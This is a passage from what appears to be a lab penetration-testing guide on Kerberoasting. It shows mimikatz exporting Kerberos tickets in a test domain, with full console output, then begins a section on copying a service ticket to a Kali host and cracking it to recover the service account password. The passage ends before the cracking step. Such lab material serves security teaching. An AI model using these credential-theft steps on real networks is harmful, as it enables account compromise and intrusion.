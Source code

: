 - ☝️ **Note**: In event of `ERROR kuhl_m_kerberos_list ; kull_m_file_writeData (0x00000005)` error, check that the user has permissions to write to the present working directory
- e.g. Attempting to run `C:\Windows\System32\cmd.exe` as a non-admin user works, but attempting to use mimikatz to save tickets to `C:\Windows\System32\` will result in write errors

```console
C:\Windows\System32>mimikatz

mimikatz # kerberos::list /export

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 16/4/2022 9:33:45 am ; 16/4/2022 7:33:45 pm ; 23/4/2022 9:33:45 am
   Server Name       : krbtgt/LAB.VX @ LAB.VX
   Client Name       : MSSQLSysAdm @ LAB.VX
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ; ERROR kuhl_m_kerberos_list ; kull_m_file_writeData (0x00000005)


[00000001] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 16/4/2022 9:34:21 am ; 16/4/2022 7:33:45 pm ; 23/4/2022 9:33:45 am
   Server Name       : cifs/svr.lab.vx @ LAB.VX
   Client Name       : MSSQLSysAdm @ LAB.VX
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; ERROR kuhl_m_kerberos_list ; kull_m_file_writeData (0x00000005)


[00000002] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 16/4/2022 9:34:17 am ; 16/4/2022 7:33:45 pm ; 23/4/2022 9:33:45 am
   Server Name       : RPCSS/svr.lab.vx @ LAB.VX
   Client Name       : MSSQLSysAdm @ LAB.VX
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; ERROR kuhl_m_kerberos_list ; kull_m_file_writeData (0x00000005)


[00000003] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 16/4/2022 9:34:16 am ; 16/4/2022 7:33:45 pm ; 23/4/2022 9:33:45 am
   Server Name       : MSSQLSvc/svr.lab.vx:1433 @ LAB.VX
   Client Name       : MSSQLSysAdm @ LAB.VX
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; ERROR kuhl_m_kerberos_list ; kull_m_file_writeData (0x00000005)
```

### 3.1.3. Crack the ticket to retrieve service account password (brute force)

#### Upload the ticket to Kali

```console
scp <ticket> kali@kali.vx:/home/kali/
```

#### Install kerberoast module
